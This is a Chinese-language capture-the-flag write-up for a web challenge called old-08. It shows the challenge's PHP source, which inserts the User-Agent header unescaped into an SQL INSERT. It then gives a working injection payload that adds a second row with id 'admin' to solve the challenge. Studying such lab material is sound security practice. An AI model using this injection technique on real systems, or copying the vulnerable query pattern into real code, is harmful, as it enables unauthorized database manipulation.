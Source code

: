 # old-08_350

* 點進去網頁裡面，看一下 source code 
    ```php=
    <?php
    $agent=trim(getenv("HTTP_USER_AGENT"));
    $ip=$_SERVER['REMOTE_ADDR'];
    if(preg_match("/from/i",$agent)){
      echo("<br>Access Denied!<br><br>");
      echo(htmlspecialchars($agent));
      exit();
    }
    $db = dbconnect();
    $count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
    if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

    $result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
    $ck = mysqli_fetch_array($result);

    if($ck){
      echo "hi <b>".htmlentities($ck[0])."</b><p>";
      if($ck[0]=="admin"){
        mysqli_query($db,"delete from chall8");
        solve(8);
      }
    }

    if(!$ck){
      $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
      echo("<br><br>done!  ({$count_ck[0]}/70)");
    }
    ?>
    ```
    大概就是講說，會用 user agent 來新增 value，如果 id 是 admin 的話，這一題就過拉
* 這一題是 sql injection
* 重點是這一行 `insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')` 乍看之下，永遠都不可能動到 guest 這個 value
* 所以換一個策略，要怎麼樣才能 insert 多個 value 呢？
    ```mysql=
    INSERT INTO table_name
    VALUES (value1_1, value2_2, value3_3,···),
    (value2_1, value2_2, value2_3,···),
    (value3_1, value3_2, value3_3,···),
    ······;
    ```
    看起來有點方向了
* 想了一下，如果可以 insert 兩個 value，一個的 id 是 admin 一個是 guest，之後把 user agent 改成 admin 的那一個不就過了 ～～～
* 這是我的 payload `123','127.0.0.1','admin'),('1234` 這是把它整體的樣子
     `insert into chall8(agent,ip,id) values('123','127.0.0.1','admin'),('1234','{$ip}','guest')`
* 這一題我是用 postman 來輔助
* 在送了 payload 之後，出現了 done
* 之後把 user agent 改成 123，就過拉
